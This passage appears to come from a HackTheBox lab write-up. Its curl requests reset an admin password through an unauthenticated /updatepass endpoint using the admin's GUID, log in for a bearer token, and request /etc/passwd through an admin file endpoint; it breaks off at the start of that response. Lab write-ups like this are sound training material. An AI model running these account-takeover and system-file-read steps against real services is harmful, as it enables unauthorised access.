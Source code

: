 ```bash
$ curl -s 'http://10.129.227.148/api/v1/admin/exec/whoami' 
{"detail":"Not authenticated"}

$ curl -s 'http://10.129.227.148/api/v1/admin/exec/whoami' -H 'Authorization: Bearer [token]'
{"detail":"Debug key missing from JWT"}
```
{: .nolineno }

At the moment we can't do anything with these endpoints, it's time to go back and look at `/updatepass`, it seems that as the name suggests, we can change the user's password.

```bash
$ curl -s 'http://10.129.227.148/api/v1/user/updatepass' -H "Content-Type: application/json" -d '{}'                                                                    
{"detail":[{"loc":["body","guid"],"msg":"field required","type":"value_error.missing"},{"loc":["body","password"],"msg":"field required","type":"value_error.missing"}]}
```
{: .nolineno }

It seems that it needs two parameters, the `guid` and the new password, maybe we can use the guid that we saw before for the admin user and we can set a new password for this one.

```bash
$ curl -s 'http://10.129.227.148/api/v1/user/updatepass' -H "Content-Type: application/json" -d '{"guid": "36c2e94a-4271-4259-93bf-c96ad5948284", "password": "batman"}' | jq
{
  "date": null,
  "id": 1,
  "is_superuser": true,
  "hashed_password": "$2b$12$g4ZkjF9kiBGACLe5Eyyy4O73rgcsvGjsxYeOFkd9JXPeNqyanoYO2",
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "email": "admin@htb.local",
  "time_created": 1649533388111,
  "last_update": null
}
```
{: .nolineno }

Perfect! we have changed the password of the admin user, now we can login and test again the `/admin/file` endpoint.

```bash
$ curl -s -d 'username=admin@htb.local&password=batman' http://10.129.227.148/api/v1/user/login | jq
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYxNjE0OTAzLCJpYXQiOjE2NjA5MjM3MDMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.NqpPycpaue3gKJjH8GgqRgUhonUvHKfmhNzP8L73SJ0",
  "token_type": "bearer"
}

$ curl -s 'http://10.129.227.148/api/v1/admin/file' -H 'Authorization: Bearer [token]' -H 'Content-Type: application/json' -d '{"file": "/etc/passwd"}' | jq      
{
```